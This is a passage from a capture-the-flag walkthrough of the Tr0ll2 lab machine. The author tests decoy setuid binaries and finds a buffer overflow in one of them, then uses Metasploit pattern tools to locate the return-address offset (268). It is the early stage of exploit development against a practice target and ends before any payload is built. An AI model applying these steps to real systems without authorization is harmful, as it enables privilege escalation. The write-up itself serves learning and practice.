 I expanded the list of files in these directories so I could see everything at a glance. Let's see what we have:

``` 
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door1$ file r00t 
r00t: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x4ceb2022ad50bc899c84f5e30793fe06b0a166c0, not stripped
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door1$ ./r00t 
Usage: ./r00t input
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door1$ ./r00t lol
lol
```

This appears to echo whatever you give it. I tried doing a strings on it but got permission denied error. Moved on to the next executable for now:

``` 
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door2$ ./r00t 
Good job, stand by, executing root shell...
BUHAHAHA NOOB!
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door2$ 
Broadcast message from noob@Tr0ll2
	(/dev/pts/0) at 12:57 ...

The system is going down for reboot NOW!
Connection to 192.168.217.129 closed by remote host.
Connection to 192.168.217.129 closed.
```

Ok..the troll is trying to annoy us..this binary rebooted the machine. I went on to the third and again it restarted! Not much likely for the binaries to be the same, and it was good that I had the initial picture of the binary sizes! It seems the trolling continues..by switching the binaries between directories! Keep in mind the binary sizes, and check often, because they get moved a lot.

``` plain
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door1$ ./r00t 

2 MINUTE HARD MODE LOL
```

Wasn't sure what this one did, until I got a permission denied when running ls :-) so in those 2 minutes, we are probably stripped by even the basic permissions. By now, it seemed that the only interesting binary would be the one that takes user input (largest one), so I got back to it. I used <code>pattern_create.rb</code> to build a 500 bytes long string and feed it to the binary, and it segfaulted! So, we have a buffer overflow here!

``` plain
Program received signal SIGSEGV, Segmentation fault.
0x6a413969 in ?? ()
```

Let's see where exactly in the pattern it happens:

``` plain
root@kali:/usr/share/metasploit-framework/tools/exploit# ./pattern_offset.rb -q 0x6a413969 -l 500
[*] Exact match at offset 268
```
